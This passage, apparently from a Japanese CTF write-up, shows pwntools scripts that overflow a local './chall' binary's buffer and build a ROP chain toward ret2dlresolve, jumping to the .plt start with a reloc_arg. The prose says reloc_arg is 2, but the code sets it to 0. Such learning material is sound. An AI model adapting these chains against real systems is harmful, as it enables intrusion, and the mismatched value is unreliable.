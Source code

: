 ```python=
target.sendline(b"/bin/sh\x00")

target.interactive()
```

### reloc_argを指定したputsの呼び出し
変更ポイント：
* とび先を`puts@plt`からpltセクションの先頭に変更
* 飛ぶ直前に`puts`の`reloc_arg = 2`をスタックに積んでいる。

```python=
#!/usr/bin/env python3
from pwn import *

elf = ELF("./chall")
rop = ROP(elf)

addr_plt_puts = elf.plt["puts"]
addr_plt_gets = elf.plt["gets"]
addr_plt_exit = elf.plt["exit"]
addr_bss = elf.bss()

addr_plt_start = elf.get_section_by_name(".plt").header.sh_addr

addr_pop_rdi = rop.find_gadget(["pop rdi", "ret"]).address 
# addr_pop_rsi = rop.find_gadget(["pop rsi", "pop r15", "ret"]).address 
# addr_leave_ret = rop.find_gadget(["leave", "ret"])

stack_size = 0x800
base_stage = addr_bss + stack_size

puts_reloc_arg = 0x0

target = process("./chall")

print("[*] .plt start : 0x{:x}".format(addr_plt_start))

buf = b'A' * 0x78
buf += p64(addr_pop_rdi)
buf += p64(base_stage)
buf += p64(addr_plt_gets)
buf += p64(addr_pop_rdi)
buf += p64(base_stage)
# buf += p64(addr_plt_puts)
buf += p64(addr_plt_start)
buf += p64(puts_reloc_arg)
buf += p64(addr_plt_exit)


_ = input()
target.sendline(buf)
target.sendline(b"/bin/sh\x00")

target.interactive()
```

